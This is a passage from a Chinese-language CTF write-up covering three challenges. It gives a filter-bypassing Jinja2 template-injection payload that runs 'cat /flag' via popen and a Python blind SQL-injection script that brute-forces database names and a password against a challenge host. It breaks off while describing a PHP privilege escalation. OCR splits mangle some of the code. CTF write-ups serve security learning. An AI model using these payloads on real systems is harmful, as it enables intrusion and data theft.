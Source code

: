过滤短横线和关键字 ==>request.args.参数

payload

```php
http://easypy/calc?calc= {{(1=&answer=1)|attr(request.args.class)|attr(request.args.mro)|attr(request.arg s.getitem)(2)|attr(request.args.subclasses)()|attr(request.args.getitem) (133)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.getit em)(request.args.popen)(request.args.data)|attr(request.args.read) ()}}&class=__class__&mro=__mro__&getitem=__getitem__&subclasses=__subclasses__&i nit=__init__&globals=__globals__&popen=popen&data=cat+/flag&read=read
```

### easysql

还是先用bp的爆破，查查哪些字符被过滤了。

过滤了一些危险字符，关闭了回显，hint提示flag的值为pwd的值，采用盲注

经过猜解

payload: '!= 

(mid((select(group_concat(schema_name))from(information_schema.schemata))from(-1))=' 

l')='1 返回 wrong password

脚本如下

```python
import requests
url = "http://47.100.242.70:4725/check.php"
result = ""
for i in range(1,60):
    for j in range(33,127):
    # print(j)
        pwd=chr(j)+result
        uname="'!= (mid((select(group_concat(schema_name))from(information_schema.schemata))from(- {i}))='{pwd}')='1".format(i=str(i),pwd=pwd)
    # uname="'!= (mid((select(group_concat(table_name))from(information_schema.tables)where(table _schema)='easysql')from(-{i}))='{pwd}')='1".format(i=str(i),pwd=pwd)
    # uname="'!= (mid((select(group_concat(column_name))from(information_schema.columns)where(tab le_name)='syclover')from(-{i}))='{pwd}')='1".format(i=str(i),pwd=pwd)
    # uname="'!=(mid((select(group_concat(pwd))from(syclover))from(- {i}))='{pwd}')='1".format(i=str(i),pwd=pwd)
        data={"uname":uname,"pwd":pwd}
        res=requests.post(url,data)
    # print(res.text)
        if "wrong password!" in res.text:
            result=pwd
            print (result)
            break
```

###  noobPHP

修改权限的路由很明显有问题，可以使用数组越权成为admin，admin的权限可以执行任意代码，这里
